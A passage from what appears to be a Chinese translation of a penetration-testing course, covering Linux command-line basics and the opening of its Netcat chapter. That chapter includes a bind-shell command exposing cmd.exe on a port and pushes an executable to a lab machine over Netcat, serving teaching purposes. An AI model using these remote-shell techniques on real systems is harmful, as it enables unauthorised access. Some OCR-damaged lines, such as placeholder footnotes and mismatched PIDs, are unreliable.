这些格式之间最显著的区别在于，`统一格式` 不显示文件之间匹配的行，从而使结果更简短。两种格式中指示符的含义相同。

### 3.5.3 vimdiff

`vimdiff` 在 vim 中打开多个文件，每个窗口一个文件。文件之间的差异会被高亮显示，这使得视觉检查变得更加容易。有几个可能很有用的快捷键。例如：

- `do`: 从其他窗口获取更改到当前窗口
- `dp`: 将当前窗口的更改放到其他窗口
- `]c`: 跳转到下一个更改
- `[c`: 跳转到上一个更改
- `Ctrl+W`: 切换到其他分割窗口。

让我们看一个例子：

```bash
kali@kali:~$ vimdiff scan-a.txt scan-b.txt
```

清单 58 - 使用 vimdiff（统一格式）比较文件

[^61]: (GNOME Project, 2019), https://wiki.gnome.org/Apps/Gedit
[^62]: (Wikipedia, 2019), https://en.wikipedia.org/wiki/Leafpad
[^63]: (Wikipedia, 2019), https://en.wikipedia.org/wiki/Graphical_User_Interface
[^64]: (GNU Nano, 2019) https://www.nano-editor.org/docs.php
[^65]: (GNU Nano, 2018) https://www.nano-editor.org/dist/v2.9/nano.html
[^66]: (die.net, 2010), https://linux.die.net/man/1/comm
[^68]: (Vim, 2019), http://www.vim.org/



*图 7. 使用 vimdiff 比较文件*

在图 7 中，请注意，由于彩色高亮显示，差异很容易被发现。

#### 3.5.3.1 练习

- 1. 从以下网址 https://offensive-security.com/pwk-files/scans.tar.gz 下载归档文件
- 2. 该归档文件包含在不同时间扫描同一目标机器的结果。解压归档文件，并通过 `diff` 比较扫描结果来查看能否发现差异。

## 3.6 进程管理

Linux 内核通过使用进程来管理多任务。内核维护每个进程的信息以帮助保持井然有序，并且每个进程都被分配一个称为进程 ID `PID` 的编号。

Linux shell 还引入了 `作业`[^69] 的概念，以简化用户在终端会话期间的工作流程。例如，`cat error.txt | wc -m` 是两个进程的管道，shell 将其视为单个作业。作业控制指的是选择性暂停作业执行并在稍后恢复其执行的能力。这可以通过特定命令的帮助来实现 [^70]，我们将很快对此进行探索。

[^69]: (维基百科, 2019), https://en.wikipedia.org/wiki/Job_control_(Unix)
[^70]: (Bash 参考手册, 2002), http://www.faqs.org/docs/bashman/bashman_78.html#SEC85

### 3.6.1 后台运行进程 `bg`


本模块中之前的作业都在前台运行，这意味着终端被占用，直到当前命令完成之前无法执行其他命令。由于我们的大部分示例都简短且直接，这并未造成问题。然而，在后续模块中，我们将运行更长、更复杂的命令，可以将这些命令发送到后台，以便重新获得终端控制权并执行额外的命令。

将进程后台化的最快方法是在命令末尾添加一个 `&` 符号，以便在启动后立即将其发送到后台。让我们尝试一个简短的示例：

```
kali@kali:~$ ping -c 400 localhost > ping_results.txt &
```

*列表 59 - 在作业启动后立即将其后台化*

在列表 59 中，我们使用 `ping` 命令向本地接口发送了 400 个 ICMP 回显请求，并将结果写入名为 `ping_results.txt` 的文件。执行自动在后台运行，使 shell 可用于其他操作。

但如果在命令末尾忘记了添加 `&` 符号会发生什么？命令将在前台运行，我们将被迫通过 `Ctrl C` 取消命令，或者等待命令完成以重新获得终端控制权。另一种选项是在作业已经开始后使用 `Ctrl Z` 暂停该作业。一旦作业被暂停，我们可以使用 `bg` 命令在后台恢复它：

```
kali@kali:~$ ping -c 400 localhost > ping_results.txt
^Z
[1]+ Stopped                  ping -c 400 localhost > ping_results.txt

kali@kali:~$ bg
[1]+ ping -c 400 localhost > ping_results.txt
kali@kali:~$
```

*列表 60 - 使用 bg 将作业后台化*

该作业现在在后台运行，我们可以继续按意愿使用终端。在此过程中，请记住一些进程对时间敏感，如果暂停时间过长可能会给出错误结果。例如，在 `ping` 示例中，回显回复可能会返回，但如果进程在数据包到达时处于暂停状态，进程可能会错过它，从而导致输出错误。在进行作业控制时，始终要考虑你所运行的命令的背景。

### 3.6.2 作业控制: jobs 和 fg

为了快速检查我们的 ICMP 回显请求的状态，我们需要使用两个额外的命令： `jobs` 和 `fg`。

内置的 `jobs` 实用程序列出当前终端会话中正在运行的作业，而 `fg` 将作业返回到前台。这些命令的操作如下所示：

```bash
kali@kali:--$ ping -c 400 localhost > ping_results.txt
^Z
[1]+  Stopped           ping -c 400 localhost > ping_results.txt

kali@kali:--$ find / -name sbd.exe
^Z
[2]+  Stopped           find / -name sbd.exe

kali@kali:--$ jobs
[1]-  Stopped           ping -c 400 localhost > ping_results.txt
[2]+  Stopped           find / -name sbd.exe

kali@kali:--$ fg %1
ping -c 400 localhost > ping_results.txt
^C

kali@kali:--$ jobs
[2]+  Stopped           find / -name sbd.exe

kali@kali:--$ fg
find / -name sbd.exe
/usr/share/windows-resources/sbd/sbd.exe
```

*列表 61 - 使用 jobs 查看作业并使用 fg 将其中一个调到前台*

列表 61 中有几件事值得提及。

首先，奇怪的 `^C` 字符代表键盘组合 `Ctrl C`。我们可以使用此快捷键来终止长时间运行的进程并重新获得终端控制权。

其次，在 `fg %1` 命令中使用“`%1`”是新的。在 shell 中有多种引用作业的方法。“`%`”字符后跟一个 JobID 代表一个作业规范。JobID 可以是进程 ID `PID` 号，也可以使用以下符号组合之一：

- `%Number`: 指代作业号，如 `%1` 或 `%2`
- `%String`: 指代暂停命令名称的开头部分，如 `%commandNameHere` 或 `%ping`
- `%+` 或 `%%` : 指代当前作业
- `%-` : 指代上一个作业

请注意，如果只有一个进程被后台化，则不需要作业号。

### 3.6.3 进程控制: ps 和 kill

在大多数类 Unix 操作系统上，监控进程最有用的命令之一是 `ps`[^71]（`process status` 的缩写）。与 `jobs` 命令不同，`ps` 列出系统范围内的进程，而不仅仅是当前终端会话中的进程。该实用程序被视为类 Unix 操作系统的标准，其名称如此知名，即使在 Windows PowerShell 中，`ps` 也是 `Get-Process` cmdlet 的预定义命令别名，其本质上是起到相同的作用。

[^71]: (The Linux Information Project, 2005). http://www.linfo.org/ps.html

作为一名渗透测试人员，在获得系统的远程访问权限后，首先要检查的事情之一是了解受控机器上当前正在运行哪些软件。这可以帮助我们提升权限或收集额外信息，以获取对网络的进一步访问权限。

作为一个例子，让我们启动 Leafpad 文本编辑器，然后尝试使用 `ps` 命令从命令行找到其进程 ID `PID`[^72]（列表 62）：

```
kali@kali:~$ ps -ef
UID PID PPID C STIME TTY TIME CMD
root 1 0 0 10:18 ? 00:00:02 /sbin/init
root 2 0 0 10:18 ? 00:00:00 [kthreadd]
root 3 2 0 10:18 ? 00:00:00 [rcu_gp]
root 4 2 0 10:18 ? 00:00:00 [rcu_par_gp]
root 5 2 0 10:18 ? 00:00:00 [kworker/0:0-events]
root 6 2 0 10:18 ? 00:00:00 [kworker/0:0H-kblockd]
root 7 2 0 10:18 ? 00:00:00 [kworker/u256:0-events_unbound
root 8 2 0 10:18 ? 00:00:00 [mm_percpu_wq]
root 9 0 0 10:18 ? 00:00:00 [ksoftirqd/0]
root 10 2 0 10:18 ? 00:00:00 [rcu_sched]
...
```

*列表 62 列出当前运行所有进程的常见 ps 语法*

我们上面使用的 `-ef`[^73] 选项代表：

- `e`: 选择所有进程
- `f`: 显示完整格式列表 `UID`, `PID`, `PPID` 等

[^72]: [参考在 OCR 中缺失，可能对应 PID 定义或脚注]

[^73]: [参考在 OCR 中缺失，可能对应 ps 选项]

在那庞大的列表中找出我们的 Leafpad 应用程序肯定不容易，但由于我们知道我们要查找的应用程序名称，我们可以用 `-C`（按命令名称选择）替换 `-e` 开关，如下所示：

```
kali@kali:~$ ps -fC leafpad
UID PID PPID C STIME TTY TIME CMD
kali 1307 938 0 10:57 ? 00:00:00 leafpad
```

*列表 63 - 通过指定进程名称来缩小搜索范围*

如列表 63 所示，进程搜索返回了一个结果，从中我们获得了 Leafpad 的 `PID`。花点时间查看命令手册 (`man ps`)，因为 `ps` 确实是进程管理的瑞士军刀。

假设我们现在想在不与 GUI 交互的情况下停止 Leafpad 进程。`kill` 命令可以在这里帮助我们，因为它的目的是向进程发送特定信号 [^74]。为了

[^74]: [参考在 OCR 中缺失，可能对应 kill 信号细节]

### 3.6.2 进程管理

要使用 `kill`，我们需要知道要向哪个进程发送信号的 `PID`。由于我们在上一步中已经获取了 Leafpad 的 `PID`，因此可以继续操作：

```bash
kali@kali:~$ kill 1397

kali@kali:~$ ps aux | grep leafpad
kali 1313 0.0 0.0 6144 888 pts/0 S+ 10:59 0:00 grep leafpad
```


由于 `kill` 的默认信号是 `SIGTERM`（请求终止），我们的应用程序已被终止。在 List 64 中，通过在对 Leafpad 执行 kill 操作后使用 `ps` 命令验证了这一点。

### 3.6.3.1 练习

- 1. 在 Kali 虚拟机上，通过在后台运行特定命令，查找在过去 7 天内发生变化的文件。
- 2. 重新运行上一条命令并挂起它；挂起后，将其放入后台运行。
- 3. 将之前的后台任务切换到前台运行。
- 4. 在你的 Kali 系统上启动 Firefox 浏览器。使用 `ps` 和 `grep` 来识别 Firefox 的 PID。
- 5. 使用其 PID 从命令行终止 Firefox。

## 3.7 文件和命令监控

在渗透测试过程中，了解如何实时监视文件和命令具有极高的价值。`tail` 和 `watch` 是两个有助于此类任务的命令。

### 3.7.1 tail

`tail` 最常见的用途是监视正在写入的日志文件条目。例如，我们可能想要监视 Apache 日志，以查看 Web 服务器是否正在被我们试图通过客户端漏洞利用进行攻击的特定客户端联系。此示例将执行此操作：

```bash
kali@kali:~$ sudo tail -f /var/log/apache2/access.log

127.0.0.1 - - [02/Feb/2018:12:18:14 -0500] "GET / HTTP/1.1" 200 3380 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0"
127.0.0.1 - - [02/Feb/2018:12:18:14 -0500] "GET /icons/openlogo-75.png HTTP/1.1" 200 6040 "http://127.0.0.1/" "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0"
127.0.0.1 - - [02/Feb/2018:12:18:15 -0500] "GET /favicon.ico HTTP/1.1" 404 500 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0"
```


`-f` 选项（跟随）非常有用，因为它会随着目标文件的增加而持续更新输出。另一个方便的开关是 `-nX`，它输出最后“X”行，而不是默认的 10 行。

### 3.7.2 watch

`watch` 命令用于以固定的时间间隔运行指定命令。默认情况下，它每两秒运行一次，但我们可以通过使用 `--interval` (`-n X`) 选项指定不同的间隔，使其每“X”秒运行一次。例如，以下命令将每 5 秒列出一次已登录的用户（通过 `w` 命令）：

```bash
kali@kali:~$ watch -n 5 w

Every 5.0s: w                                kali: Tue Jan 23 21:06:03 2018

21:06:03 up 7 days, 3:54,  1 user,  load average: 0.18, 0.09, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU  WHAT
kali     tty2     :0               16Jan18  7days  16:29  2.51s /usr/bin/python
```

> `List 66 - 使用 watch 命令监控已登录用户。`

要终止 `watch` 命令并返回交互式终端，请使用 `Ctrl C`。

#### 3.7.2.1 练习

- 1. 启动你的 apache2 Web 服务并在本地访问它，同时实时监视其 `access.log` 文件。
- 2. 使用 `watch` 和 `ps` 的组合，在终端窗口中监控你的 Kali 机器上 CPU 密集型最高的进程；启动不同的应用程序以查看列表如何实时变化。

## 3.8 下载文件

接下来，让我们看看一些可以从命令行将文件下载到 Linux 系统的工具。

### 3.8.1 wget

我们将大量使用 `wget` 命令，它使用 HTTP/HTTPS 和 FTP 协议下载文件。List 67 展示了使用 `wget` 配合 `-O` 开关在本地机器上以不同名称保存目标文件的用法：

```bash
kali@kali:~$ wget -O report_wget.pdf https://www.offensive-security.com/reports/pentration-testing-sample-report-2018.pdf
--2018-01-28 20:30:04--  https://www.offensive-security.com/reports/pentration-testing-sample-report-2018.pdf
Resolving www.offensive-security.com (www.offensive-security.com)... 192.124.249.5
Connecting to www.offensive-security.com (www.offensive-security.com)|192.124.249.5|:4
HTTP request sent, awaiting response... 200 OK
Length: 27691955 (26M) [application/pdf]
Saving to: 'report_wget.pdf'

100%[==>===========================>] 26.41M 766KB/s in 28s

2018-01-28 20:38:33 (964 KB/s) - 'report_wget.pdf' saved [27691955/27691955]
```

> `List 67 - 通过 wget 下载文件`

### 3.8.2 curl

`curl` 是一个使用众多协议（包括 IMAP/S, POP3/S, SCP, SFTP, SMB/S, SMTP/S, TELNET, TFTP 等）向服务器传输或从服务器获取数据的工具。渗透测试人员可以使用它来下载或上传文件，并构建复杂的请求。其最基本用法与 `wget` 非常相似，如 List 68 所示：

```bash
kali@kali:~$ curl -o report.pdf https://www.offensive-security.com/reports/pentration-testing-sample-report-2013.pdf

% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                              Dload  Upload   Total   Spent    Left  Speed

  100  26.4M    100  26.4M      0      0    1590k      0  0:00:17  0:00:17 --:--:--   870k
```

> `List 68 - 使用 curl 下载文件`

### 3.8.3 axel

`axel` 是一个下载加速器，通过多个连接从 FTP 或 HTTP 服务器传输文件。该工具拥有广泛的功能，但最常见的是 `-n`，用于指定要使用的多连接数。在以下示例中，我们还使用了 `-a` 选项以获得更简洁的进度指示器，并使用 `-o` 为下载的文件指定不同的文件名。


```bash
kali@kali:~$ axel -a -n 20 -o report_axel.pdf https://www.offensive-security.com/reports/pentration-testing-sample-report-2013.pdf

Initializing download: https://www.offensive-security.com/reports/pentration-testing - File size: 27691955 bytes

Opening output file report_axel.pdf

Starting download

Connection 0 finished
Connection 1 finished
Connection 2 finished
Connection 3 finished
Connection 4 finished
Connection 5 finished
Connection 6 finished
Connection 7 finished
Connection 8 finished
Connection 9 finished
Connection 10 finished
Connection 11 finished
Connection 13 finished
Connection 14 finished
Connection 15 finished
Connection 16 finished
Connection 18 finished
[100%]  
[  11.1MB/s] [00:00]

Downloaded 26.4 Megabyte in 2 seconds. (11380.17 KB/s)
```

### 3.8.3.1 练习

- 1. 使用 `curl`、`wget` 和 `axel` 从 https://www.exploit-db.com 下载某个漏洞利用的 PoC 代码，并将每个下载保存为不同的名称。

## 3.9 自定义 Bash 环境

### 3.9.1 Bash 历史记录自定义

在本模块中，我们之前讨论了环境变量和 `history` 命令。我们可以使用多个环境变量来更改 `history` 命令的操作和数据返回方式，最常见的包括 `HISTCONTROL`、`HISTIGNORE` 和 `HISTTIMEFORMAT`。

`HISTCONTROL` 变量定义是否从历史记录中删除重复命令、以空格开头的命令，或两者都删除。默认情况下，两者都会被删除，但你可能会发现仅忽略重复项更有用。

```bash
kali@kali:~$ export HISTCONTROL=ignoredups
```

`HISTIGNORE` 变量对于过滤掉经常运行的基本命令（例如 `ls`、`exit`、`history`、`bg` 等）特别有用。

```bash
kali@kali:~$ export HISTIGNORE="&;ls:[bf]g;exit;history"

kali@kali:~$ mkdir test

kali@kali:~$ cd test

kali@kali:~/test$ ls

kali@kali:~/test$ pwd
/home/kali/test

kali@kali:~/test$ ls

kali@kali:~/test$ history
  1  export HISTIGNORE="&;ls:[bf]g;exit;history"
  2  mkdir test
  3  cd test
  4  pwd
```

最后，`HISTTIMEFORMAT` 控制 `history` 命令输出中的日期和/或时间戳。

[脚注]

<sup>75</sup> tail 命令参考隐含

<sup>76</sup> (die.net, 1999), https://linux.die.net/man/1/watch

<sup>77</sup> (GNU, 2018), https://www.gnu.org/software/wget/manual/wget.html

<sup>78</sup> (MIT, 2004), http://www.mit.edu/afs/new/sipb/user/ssern/src/curl-7.11.1/docs/curl.html

<sup>79</sup> (Ubuntu, 2019), http://manpages.ubuntu.com/manpages/xenial/man1/axel.1.html

```bash
kali@kali:~/test$ export HISTTIMEFORMAT='%F %T '

kali@kali:~/test$ history
1  2018-02-12 13:37:33 export HISTIGNORE="&|ls:[bf]g:exit:history"
2  2018-02-12 13:37:38 mkdir test
3  2018-02-12 13:37:40 cd test
4  2018-02-12 13:37:43 pwd
5  2018-02-12 13:37:51 export HISTTIMEFORMAT='%F %T '
```

清单 72 – 使用 `HISTTIMEFORMAT` 在 bash 历史记录中包含日期/时间

在本例中，我们使用了 `%F`（年-月-日 ISO B601 格式）和 `%T`（24 小时制时间）。其他格式可以在 `strftime` man 页面中找到。[^80]

### 3.9.2 别名

别名是我们定义的一个字符串，用于替换命令名称。别名对于用较短的命令（即我们定义的别名）替换常用命令和开关非常有用。换句话说，别名是我们自己定义的命令，由其他命令构建而成。一个例子是 `ls` 命令，我们通常倾向于使用 `ls -la`（以长列表形式显示结果，包括隐藏文件）。让我们看看如何使用别名来替换此命令：

```bash
kali@kali:~$ alias lsa='ls -la'

kali@kali:~$ lsa
total 8308

-\*\*\*\*\*\*\*\*\*\*
-rw\-\-\-\-\-\-\-\- 1 kali kali 5542 Jan 22 09:56 .bash\_history
-rw-r\-r\-\-\- 1 kali kali 3391 Apr 25 20:17 .bashrc
drwx\-\-\-\-\-\- 9 kali kali 4096 Oct 2 21:29 .cache
-\*\*\*\*\*\*\*\*\*\*
```

清单 73 – `alias` 命令

通过定义我们自己的命令 `lsa`，我们可以快速执行 `ls -la`，而无需输入任何参数。运行不带参数的 `alias` 命令也可以查看已定义的别名列表。

请注意：`alias` 命令对别名使用的单词没有任何限制。因此，可以使用已经对应现有命令的单词创建别名。我们可以看到以下相当任意的例子：

```bash
kali@kali:~$ alias mkdir='ping -c 1 localhost'

kali@kali:~$ mkdir
PING localhost(localhost (::1)) 56 data bytes
64 bytes from localhost (::1): icmp\_seq=1 ttl=64 time=0.121 ms

--- localhost ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.121/0.121/0.000 ms
```

清单 74 – 创建覆盖 `mkdir` 命令的别名

[^80]: Man7.org, 2019. http://man7.org/linux/man-pages/man3/strftime.3.html

如果出现这种情况，解决方案很简单。我们可以退出当前 shell 会话，或者使用 `unalias` 命令来取消设置该出问题的别名。

```bash
kali@kali:~$ unalias mkdir

kali@kali:~$ mkdir
mkdir: missing operand
Try 'mkdir --help' for more information.
```

清单 75 - 取消设置别名

### 3.9.3 持久化 Bash 自定义

Bash 交互式 shell 的行为由位于 `/etc/bash.bashrc` 中的系统级 `bashrc` 文件决定。通过编辑位于任何用户主目录中的 `.bashrc` 文件，可以覆盖系统级 Bash 设置。

在前一节中，我们探索了 `alias` 命令，它为当前终端会话设置别名。我们还可以将此命令插入用户主目录中的 `.bashrc` 文件，以设置持久别名。每当该用户登录时都会执行 `.bashrc` 脚本。由于此文件是一个 shell 脚本，我们可以插入任何可以从命令提示符执行的命令。


让我们查看 Kali Linux 中默认的 `/home/kali/.bashrc` 文件的几行：

```bash
kali@kali:~$ cat ~/.bashrc
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

...

# for setting history length see HISTSIZE and HISTFILESIZE in bash(1)
HISTSIZE=1000
HISTFILESIZE=2000

# enable color support of ls and also add handy aliases
if [ -x /usr/bin/dircolors ]; then
	test -r ~/.dircolors && eval "$(dircolors -b ~/.dircolors)" || eval "$(dircolors -b)"
	alias ls='ls --color=auto'
...
```

清单 76 - 检查 `.bashrc` 默认文件

您可能认得 `HISTSIZE` 和 `HISTFILESIZE` 环境变量，以及显示彩色输出的 `alias` 命令。

### 3.9.3.1 练习

- 创建一个名为 ".." 的别名，用于切换到父目录，并使其在终端会话之间持久。
- 永久配置 `history` 命令，使其存储 10000 条记录，并在输出中包含完整日期。

## 3.10 总结

在本模块中，我们对几个流行的 Linux 命令行程序进行了初步了解。请记住参考 Kali Linux 培训网站[^81] 进行复习或更深入的研究。

[^81]: Offensive Security, 2019. https://kali.training/lessons/introduction/

## 4. 实用工具

现代安全专业人员可以访问各种高级工具，这在几年前还是无法想象的。然而，在实地操作中，我们经常发现自己所处的环境中，可用的工具仅仅是目标机器上已安装的工具。在其他情况下，我们可能只能传输小文件以扩大在目标网络上的立足点。出于这些原因，了解每个渗透测试人员工具包中的一些实用工具至关重要。我们常用的工具有 *Netcat*、*Socat*、*PowerShell*、*Wireshark* 和 *Tcpdump*。

> 请注意：视频和本实验指南中使用的 IP 地址与您攻击性安全（Offensive Security）实验室的 IP 地址不匹配。此处使用的 IP 地址仅为例示，需要根据您的实验室环境进行更改。

### 4.1 Netcat

`Netcat`[^82] 最初由 *Hobbit* 于 1995 年发布，是“原始”网络渗透测试工具之一，其功能强大，名副其实，正如作者所称的，它是黑客的“瑞士军刀”。对 `Netcat` 最清晰的定义来自 *Hobbit* 本人：一个使用 TCP 或 UDP 协议读取和写入网络连接的简单实用工具。[^83]

#### 4.1.1 连接到 TCP/UDP 端口

如描述所示，`Netcat` 可以运行在客户端模式或服务器模式下。首先，让我们看看客户端模式。

我们可以使用客户端模式连接到任何 TCP/UDP 端口，从而允许我们：

- 检查端口是打开还是关闭。
- 读取监听端口的服务横幅。
- 手动连接到网络服务。

让我们使用 `Netcat` (`nc`) 开始检查实验室机器之一上的 TCP 端口 110（POP3 邮件服务）是否打开。我们将提供几个参数：`-n` 选项以跳过 DNS 名称解析；`-v` 以增加一些详细程度；目标 IP 地址；以及目标端口号：

```bash
kali@kali:~$ nc -nv 10.11.0.22 110
(UNKNOWN) [10.11.0.22] 110 (pop3) open
+OK POP3 server lab_ready <00003.1277944@Lab>
```

清单 77 - 使用 `nc` 连接到 TCP 端口

清单 77 告诉了我们几件事。首先，到 `10.11.0.22` 端口 `110` 的 TCP 连接（标准术语为 `10.11.0.22:110`）成功了，因此 `Netcat` 报告远程端口为打开状态。

[^82]: Wikipedia, 2019. https://en.wikipedia.org/wiki/Netcat

[^83]: Sourceforge. http://nc110.sourceforge.net

其次，服务器通过“回应我们”来响应我们的连接，打印出服务器欢迎消息，并提示我们登录，这是 POP3 服务的标准行为。

让我们尝试与服务器交互：

```bash
kali@kali:~$ nc -nv 10.11.0.22 110
  (UNKNOWN) [10.11.0.22] 110 (pop3) open
  +OK POP3 server lab ready <00004.1546827@lab>
  USER offsec
  +OK offsec welcome here
  PASS offsec
  -ERR unable to lock mailbox
  quit
  +OK POP3 server lab signing off.
kali@kali:~$
```

清单 78 - 使用 `nc` 连接到 POP3 服务

我们成功使用 `Netcat` 与 POP3 服务进行了对话（尽管我们的登录尝试失败了）。

#### 4.1.2 监听 TCP/UDP 端口

使用 `Netcat` 监听 TCP/UDP 端口对于调试客户端应用程序的网络问题或接收 TCP/UDP 网络连接非常有用。让我们尝试使用 `Netcat` 作为客户端和服务器，实现涉及两台机器的简单聊天服务。

在 IP 地址为 `10.11.0.22` 的 Windows 机器上，我们将 `Netcat` 配置为在 TCP 端口 `4444` 上监听传入连接。我们将使用 `-n` 选项禁用 DNS 名称解析，`-l` 创建监听器，`-v` 增加一些详细程度，并使用 `-p` 指定监听端口号。

```powershell
C:\Users\offsec> nc -nlvp 4444
listening on [any] 4444 ... 
```

清单 79 - 使用 `nc` 设置监听器

既然我们已将此 Windows 机器上的端口 `4444` 绑定到 `Netcat`，让我们从我们的 Linux 机器连接到该端口并输入一行文本：

```bash
kali@kali:~$ nc -nv 10.11.0.22 4444
  (UNKNOWN) [10.11.0.22] 4444 (?) open
  This chat is from the Linux machine
```

清单 80 - 使用 `nc` 连接到监听器

我们的文本将通过 TCP 端口 `4444` 发送到 Windows 机器，我们可以继续从 Windows 机器进行“聊天”：

```powershell
C:\Users\offsec> nc -nlvp 4444
listening on [any] 4444 ... 
  connect to [10.11.0.22] from <UNKNOWN> [10.11.0.4] 43447
This chat is from the Linux machine

This chat is from the windows machine
```

清单 81 - 简单的 `Netcat` 聊天

虽然这个示例并不十分令人兴奋，但它展示了 `Netcat` 的若干重要特性。在继续之前，请尝试回答以下重要问题：

- 哪台机器充当了 `Netcat` 服务器？
- 哪台机器充当了 `Netcat` 客户端？
- 端口 `4444` 实际上是在哪台机器上打开的？
- 客户端和服务器之间的命令行语法有何区别？

#### 4.1.3 使用 Netcat 传输文件

`Netcat` 还可以用于在两台计算机之间传输文件，无论是文本文件还是二进制文件。事实上，取证调查人员经常使用 `Netcat` 配合 `dd`（一种磁盘复制工具）通过网络创建具有取证效力的磁盘镜像。

为了将文件从我们的 Kali 虚拟机发送到 Windows 系统，我们启动了一个与之前聊天示例类似的设置，但存在一些细微差别。在 Windows 机器上，我们将在 `4444` 端口设置一个 `Netcat` 监听器，并将任何输出重定向到一个名为 `incoming.exe` 的文件中。

```text
C:\Users\offsec> nc -nlvp 4444 > incoming.exe
listening on [any] 4444 ...
```

*清单 82 - 使用 `nc` 接收文件*

在 Kali 系统上，我们将通过 TCP `4444` 端口将 `wget.exe` 文件推送到 Windows 机器：


```bash
kali@kali:~$ locate wget.exe
/usr/share/windows-resources/binaries/wget.exe

kali@kali:~$ nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
(UNKNOWN) [10.11.0.22] 4444 (?) open
```

*清单 83 - 使用 nc 传输文件*

如以下所示，Windows 机器上的 Netcat 接收到了连接：

```text
C:\Users\offsec> nc -nlvp 4444 > incoming.exe
listening on [any] 4444 ...
connect to [10.11.0.22] from <UNKNOWN> [10.11.0.4] 43459
^C
C:\Users\offsec>
```

*清单 84 - 在 Windows 上接收连接*

请注意，我们没有收到关于文件上传进度的任何 Netcat 反馈。在这种情况下，由于我们要上传的文件很小，只需等待几秒钟，然后尝试运行该文件以检查是否已完全上传到 Windows 机器即可：

```text
C:\Users\offsec> incoming.exe -h
GNU Wget 1.9.1, a non-interactive network retriever.
Usage: incoming [OPTION]... [URL]...
```

*清单 85 - 执行通过 nc 发送的文件。-h 选项显示帮助菜单*

我们可以看到，这确实是 `wget.exe` 可执行文件，并且文件传输成功。

#### 4.1.4 使用 Netcat 进行远程管理

Netcat 最有用的功能之一是其命令重定向能力。Netcat 的传统版本（使用 "DGAPING_SECURITY_HOLE" 标志编译）支持 `-e` 选项，该选项会在建立或接收成功连接后执行一个程序。这种强大功能从安全角度来看开启了各种有趣的可能性，因此在大多数现代 Linux/BSD 系统中不可用。然而，由于 Kali Linux 是一个渗透测试发行版，Kali 中包含的 Netcat 版本支持 `-e` 选项。

启用此选项后，可以将可执行文件的输入、输出和错误消息重定向到 TCP/UDP 端口，而不是默认的控制台。

例如，考虑 `cmd.exe` 可执行文件。通过重定向 `stdin`、`stdout` 和 `stderr` 到网络，我们可以将 `cmd.exe` 绑定到本地端口。任何连接到此端口的人都将在目标计算机上看到命令提示符。

为了澄清这一点，让我们通过几个涉及 Bob 和 Alice 的场景来进一步说明。

#### 4.1.4.1 Netcat 绑定 Shell 场景

在第一个场景中，Bob（运行 Windows 系统）请求 Alice（运行 Linux 系统）的帮助，并要求她连接到他的计算机并远程执行一些命令。Bob 拥有公共 IP 地址，并直接连接到互联网。然而，Alice 位于 NAT 连接之后，拥有内部 IP 地址。为了完成该场景，Bob 需要将 `cmd.exe` 绑定到其公共 IP 地址上的某个 TCP 端口，并要求 Alice 连接到他的特定 IP 地址和端口。

Bob 将检查他的本地 IP 地址，然后运行带有 `-e` 选项的 Netcat，以便在连接到监听端口时执行 `cmd.exe`：

```text
C:\Users\offsec> ipconfig
Windows IP Configuration
Ethernet adapter Local Area Connection:
Connection-specific DNS Suffix . . : :
IPv4 Address. . . . . . . . . . . . : 10.11.0.22
Subnet Mask . . . . . . . . . . . . : 255.255.0.0
Default Gateway . . . . . . . . . . : 10.11.0.1
C:\Users\offsec> nc -nlvp 4444 -e cmd.exe
listening on [any] 4444 ...
```

现在 Netcat 已将 TCP 端口 4444 绑定到 `cmd.exe`，并将 `cmd.exe` 的任何输入、输出或错误消息重定向到网络。换句话说，任何连接到 Bob 机器 TCP 端口 4444 的人（希望是 Alice）都将看到 Bob 的命令提示符。这确实是一个“巨大的安全漏洞”！

```bash
kali@kali:~$ ip address show eth0 | grep inet
    inet 10.11.0.4/16 brd 10.11.255.255 scope global dynamic eth0
kali@kali:~$ nc -nv 10.11.0.22 4444
(UNKNOWN) [10.11.0.22] 4444 (?) open
Microsoft Windows [Version 10.0.17134.590]
```

```text
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\offsec> ipconfig
Windows IP Configuration
Ethernet adapter Local Area Connection:
    Connection-specific DNS Suffix  . :
    IPv4 Address. . . . . . . . . . . : 10.11.0.22
    Subnet Mask . . . . . . . . . . . : 255.255.0.0
    Default Gateway . . . . . . . . . : 10.11.0.1
```

*清单 87 - 使用 nc 连接绑定 Shell*

正如我们所见，这按预期正常工作。下图描绘了此场景：



*图 8：Netcat 绑定 Shell 场景*

#### 4.1.4.2 反向 Shell 场景

在第二个场景中，Alice 需要 Bob 的帮助。然而，Alice 无法控制办公室的路由器，因此无法将来自路由器的流量转发到她的内部机器。

